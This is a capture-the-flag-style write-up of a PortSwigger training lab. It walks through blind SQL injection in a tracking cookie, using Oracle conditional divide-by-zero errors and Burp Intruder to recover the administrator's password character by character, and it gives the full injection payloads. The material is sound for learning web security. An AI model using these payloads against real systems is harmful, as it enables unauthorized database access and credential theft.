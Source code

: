 # Blind SQL injection with conditional errors

## Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. Exploiting the blind SQL injection vulnerability the password of the administrator user can be found out. 

## Reproduction and proof of concept

1. Visit the Home page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. The value of the cookie is `TrackingId=fUlVewByGOv8LfSS`.
2. Confirm the `TrackingId` is a SQLi vulnerable parameter: Modify the `TrackingId` cookie, appending a single quotation mark to it: `TrackingId=fUlVewByGOv8LfSS'`. An error message is received.
3. Now change it to two quotation marks: `TrackingId=fUlVewByGOv8LfSS''`. The error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.
4. Confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error: Construct a subquery using valid SQL syntax:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '')||'
```
    
The query appears to still be invalid. This may be due to the database type - try Oracle, by specifying a predictable table name in the query:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '' FROM dual)||'
```
    
There is no error, indicating that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.

5. Crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, by querying a non-existent table name:
    
```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '' FROM not-a-real-table)||'
```
    
An error is returned. This behaviour strongly suggests that your injection is being processed as a SQL query by the back-end.

Note: As long as syntactically valid SQL queries are injected, error responses can be used to infer key information about the database. 

6. To verify that the users table exists, send the query:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
    
As this query does not return an error, infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important to prevent the query from returning more than one row, which would break the concatenation.

7. It is also possible exploit this behaviour to test conditions:
    
```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

Verify that an error message is received. 

8. Then change it to:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
    
The error disappears, demonstrating that it is possible to trigger an error conditionally on the truth of a specific condition. The `CASE` statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The first expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.

Note: It is possible to use this behaviour to test whether specific entries exist in a table. 

9. Use the following query to check whether the username administrator exists:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
Verify that the condition is true (the error is received), confirming that there is a user called administrator.

![SQLi](/_static/images/sqli19.png)
![SQLi](/_static/images/sqli20.png) 

10. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

This condition should be true, confirming that the password is greater than 1 character in length.

11. Send a series of follow-up values to test different password lengths. Send:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
Then send:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
And so on. Do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is 20 characters long.

![SQLi](/_static/images/sqli21.png)
![SQLi](/_static/images/sqli22.png)

12. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests. Send the request to Burp Intruder, using the context menu.
13. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
14. In the Positions tab, change the value of the cookie to:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

15. Place payload position markers around the final a character in the cookie value. To do this, select just the `a`, and click the "Add §" button:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
16. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range `a-z` and `0-9`. You can select these easily using the "Add from list" drop-down.
17. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
18. Review the attack results to find the value of the character at the first position. The application returns an HTTP `500` status code when the error occurs, and an HTTP `200` status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with `500` in this column. The payload showing for that row is the value of the character at the first position.

![SQLi](/_static/images/sqli23.png)

19. Re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from `1` to `2`:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

20. Launch the modified attack, review the results, and note the character at the second offset.
21. Continue this process testing offset `3`, `4`, and so on, until the whole password is known.
22. In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.

![SQLi](/_static/images/sqli24.png)
